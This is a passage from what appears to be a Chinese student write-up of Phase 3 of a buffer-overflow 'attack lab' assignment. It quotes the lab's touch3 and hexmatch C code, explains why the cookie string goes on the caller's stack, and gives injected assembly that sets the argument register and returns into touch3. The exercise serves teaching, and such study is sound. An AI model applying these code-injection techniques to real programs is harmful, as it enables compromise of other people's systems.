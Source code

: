 ![](https://kkcx.oss-cn-beijing.aliyuncs.com/img/image-20220304233752252.png)

**攻击成功！**

## Phase 3

### 分析

本题与上题类似，不同点在于传的参数是一个字符串。先给出 `touch3` 的 C 语言代码

```c
void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```

`touch3` 中调用了 `hexmatch`，它的 C 语言代码为：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
    /* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
```

也就是说，我们要把 `cookie` 转换成对应的字符串传进去

注意第 6 行，`s` 的位置是随机的，我们写在 `getbuf` 栈中的字符串很有可能被覆盖，一旦被覆盖就无法正常比较。

因此，考虑把 `cookie` 的字符串数据存在 `test` 的栈上，其它部分与上题相同，这里不再重复思路。

### 注入代码

先查找 `test` 栈顶指针的位置：

![](https://kkcx.oss-cn-beijing.aliyuncs.com/img/image-20220305094755965.png)

`0x5561dca8`，这就是我们字符串存放的位置，也是调用 `touch3` 应该传入的参数，又 `touch3` 代码的地址为 `4018fa`。从而得到代码：

```assembly
movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret
```
